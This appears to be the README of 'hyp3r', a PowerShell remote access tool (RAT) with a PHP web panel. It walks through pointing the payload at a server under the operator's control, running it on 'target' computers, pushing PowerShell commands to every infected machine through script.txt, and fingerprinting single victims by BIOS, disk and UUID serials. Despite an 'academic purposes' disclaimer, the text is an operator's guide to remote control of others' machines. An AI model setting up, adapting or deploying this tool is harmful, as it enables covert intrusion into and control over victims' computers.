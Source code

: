 # hyp3r RAT

![GitHub License](https://img.shields.io/github/license/XZE3N/hyp3r)
![GitHub last commit](https://img.shields.io/github/last-commit/XZE3N/hyp3r)
![GitHub Issues or Pull Requests](https://img.shields.io/github/issues/XZE3N/hyp3r)
![GitHub contributors](https://img.shields.io/github/contributors/XZE3N/hyp3r)

<img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png" alt="PowerShell" />

## hyp3r is a basic Remote Access Tool (RAT) written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - Apache web server.
  - PowerShell version 5.1 (might work on older versions as well) installed on the target computer (Required for cmdlets to run).

## Features
  - WebGUI.
  - Live target status.
  - Remote shell execution.
  - Multi-target support (The script can handle as many targets as your server can).
  - Simple and easy to customize scripts.

## Notes
  - The timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - Remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download the .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid, hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
